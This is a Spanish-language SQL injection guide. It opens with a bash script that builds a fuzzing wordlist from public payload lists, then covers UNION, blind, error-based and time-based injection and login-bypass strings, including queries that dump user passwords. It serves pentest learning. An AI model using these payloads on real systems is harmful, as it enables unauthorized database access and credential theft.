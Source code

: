 # SQLi
```bash
# SecLists
wget "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/SQLi/Generic-BlindSQLi.fuzzdb.txt"
wget "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/SQLi/Generic-SQLi.txt"
wget "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Fuzzing/SQLi/quick-SQLi.txt"
wget "https://raw.githubusercontent.com/PenTestical/sqli/refs/heads/main/hugeSQL.txt"
wget "https://raw.githubusercontent.com/PenTestical/sqli/refs/heads/main/unionboss.txt"

cat *.txt | sort -u > sqli_wl.txt

# se añaden payloads de order by
seq 1 20 | xargs -I{} echo "' ORDER BY {}-- -" >> sqli_wl.txt

# se añade " " por "+"
while IFS= read -r line; do
    echo "$line"
    echo "${line// /+}"
done < sqli_wl.txt > temp.txt && mv temp.txt sqli_wl.txt

# se añade " " por "%20"
while IFS= read -r line; do
    echo "$line"
    echo "${line// /%20}"
done < sqli_wl.txt > temp.txt && mv temp.txt sqli_wl.txt

# sustituimos ' por %27
while IFS= read -r line; do
    echo "$line"
    echo "${line//\'/%27}"
done < sqli_wl.txt > temp.txt && mv temp.txt sqli_wl.txt

# se añade las mods de admin por administrator
while IFS= read -r line; do
    echo "$line"
    echo "${line//admin/administrator}"
done < sqli_wl.txt > temp.txt && mv temp.txt sqli_wl.txt

cat sqli_wl.txt | sort -u | tee sqli_wl.txt
```




# Guía Completa de SQL Injection (SQLi)

## 1. Introducción
El SQL Injection (SQLi) es una vulnerabilidad de seguridad que permite a un atacante manipular consultas SQL de una aplicación web para acceder, modificar o eliminar información en la base de datos. A continuación, se presentan diversas técnicas y ejemplos para explotar esta vulnerabilidad.

---

## 2. Identificación de SQLi
### 2.1. Detectar la vulnerabilidad
Podemos probar si una aplicación es vulnerable inyectando caracteres especiales que pueden generar errores o comportamientos anormales:
```sql
' -- Provoca un error de sintaxis si la entrada es vulnerable
" OR 1=1 -- Prueba si la lógica de autenticación es vulnerable
'or%201=1%20--%20- (URL encoded)
```
Si la aplicación devuelve errores o cambia su comportamiento, es posible que sea vulnerable.

---

## 3. SQL Injection en Diferentes Partes de la Consulta
La mayoría de las vulnerabilidades de SQLi ocurren dentro de la cláusula `WHERE` de una consulta `SELECT`. Sin embargo, pueden aparecer en otros lugares de la consulta, incluyendo:

- **En sentencias UPDATE**, dentro de los valores actualizados o en la cláusula `WHERE`.
- **En sentencias INSERT**, dentro de los valores insertados.
- **En sentencias SELECT**, dentro del nombre de la tabla o columna.
- **En sentencias SELECT**, dentro de la cláusula `ORDER BY`.

Esto significa que cualquier parte de una consulta SQL que procese datos de entrada puede ser potencialmente vulnerable a SQLi.

---

## 4. Ataques SQLi con UNION
### 4.1. Determinar el número de columnas
Para explotar UNION, primero debemos conocer la cantidad de columnas que devuelve la consulta original:
```sql
' ORDER BY 1--  
' ORDER BY 2--  
' ORDER BY 3--  
```
Cuando obtenemos un error, significa que hemos superado el número de columnas disponibles.

Otra opción es usar NULL para descubrir el número correcto de columnas:
```sql
' UNION SELECT NULL--  
' UNION SELECT NULL,NULL--  
' UNION SELECT NULL,NULL,NULL--
```

### 4.2. Determinar el tipo de datos de cada columna
Para determinar qué columnas aceptan texto:
```sql
' UNION SELECT 'a',NULL,NULL--  
' UNION SELECT NULL,'a',NULL--  
```
Si una consulta devuelve un error, significa que la columna no acepta strings.

### 4.3. Obtener información de otras tablas
```sql
' UNION SELECT username, password FROM users--
```

Para recuperar varios valores en una sola columna:
```sql
' UNION SELECT username || ':' || password FROM users--
```

### 4.4. Listado de bases de datos y tablas
- **MySQL & PostgreSQL:**
```sql
' UNION SELECT schema_name FROM information_schema.schemata--
' UNION SELECT table_name FROM information_schema.tables--
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--
```
- **Oracle:**
```sql
' UNION SELECT table_name FROM all_tables--
' UNION SELECT column_name FROM all_tab_columns WHERE table_name='USERS'--
```

### 4.5. Determinar la versión de la base de datos
- **MySQL & SQL Server:**
```sql
' UNION SELECT @@version--
```
- **Oracle:**
```sql
' UNION SELECT banner FROM v$version--
```

---

## 5. Blind SQL Injection (SQLi Ciego)
Cuando no obtenemos una respuesta directa, podemos inferir datos mediante respuestas condicionales.

### 5.1. Inyección basada en respuestas condicionales
```sql
' AND '1'='1 -- (Devuelve resultado)
' AND '1'='2 -- (No devuelve resultado)
```
Para extraer datos:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1) > 'm'--
```
Si la aplicación responde distinto según la condición, podemos determinar caracter por caracter.

### 5.2. Inducción de errores para extracción de datos
```sql
' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Si la aplicación devuelve un error, la condición es verdadera.

Para extraer caracteres de la contraseña:
```sql
' AND (SELECT CASE WHEN (SUBSTRING(password,1,1)='a') THEN 1/0 ELSE 'a' END)='a
```

### 5.3. SQLi basado en demoras de tiempo
Si la base de datos admite funciones de demora, podemos usar:
```sql
' OR pg_sleep(5)-- (PostgreSQL)
' OR SLEEP(5)-- (MySQL)
' OR WAITFOR DELAY '00:00:05'-- (SQL Server)
```
Si la aplicación se ralentiza, la consulta fue ejecutada.

---

## 6. Bypass de autenticación mediante SQLi
```sql
' OR 1=1--
" OR ""="
admin' --
```
Estas inyecciones permiten iniciar sesión sin necesidad de contraseña.

---

## 7. Herramientas y Recursos
- [PortSwigger SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- Burp Suite, SQLmap, etc.

---

Esta guía proporciona una referencia rápida y estructurada para identificar y explotar vulnerabilidades SQLi en distintas bases de datos. ¡Utilizar con responsabilidad! 🚀


